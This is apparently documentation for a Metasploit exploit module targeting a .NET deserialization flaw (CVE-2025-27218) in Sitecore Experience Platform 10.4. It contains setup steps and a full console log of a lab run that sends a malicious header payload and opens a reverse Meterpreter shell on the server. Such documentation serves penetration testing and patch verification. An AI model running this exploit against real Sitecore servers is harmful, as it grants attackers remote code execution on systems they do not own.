 ## Vulnerable Application
This module exploits a .NET deserialization vulnerability in Sitecore Experience Manager (XM) and Experience
Platform (XP) 10.4 before KB1002844 by injecting a malicious Base64-encoded BinaryFormatter payload into an HTTP header.

### Setup
The SiteCore installer can be downloaded from the [downloads page](https://developers.sitecore.com/downloads/Sitecore_Experience_Platform/104/Sitecore_Experience_Platform_104).
Note that a license is required to run the application.

## Verification Steps

1. Start msfconsole
2. Do: `use windows/http/sitecore_xp_cve_2025_27218`
3. Set the `RHOST` abd `LHOST`, options
4. Run the module
5. Receive a Meterpreter session as the `IIS APPPOOL\XP0.sc` user.

## Scenarios
### SiteCore XP 10.4.0 Revision 010422 running on Windows Server 2022
```
msf6 exploit(windows/http/sitecore_xp_cve_2025_27218) > set rhost xp0.sc
rhost => xp0.sc
msf6 exploit(windows/http/sitecore_xp_cve_2025_27218) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(windows/http/sitecore_xp_cve_2025_27218) > dns add-static xp0.sc 192.168.123.244
[*] Added static hostname mapping xp0.sc to 192.168.123.244
msf6 exploit(windows/http/sitecore_xp_cve_2025_27218) > run
[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. The target is running SiteCore.
[+] Server responded with 200, this probably means it worked.
[*] Sending stage (203846 bytes) to 192.168.123.244
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.244:49832) at 2025-03-27 08:58:13 -0700

meterpreter > getuid
Server username: IIS APPPOOL\XP0.sc
meterpreter > sysinfo
Computer        : WIN-2I9LBN2Q0R5
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```
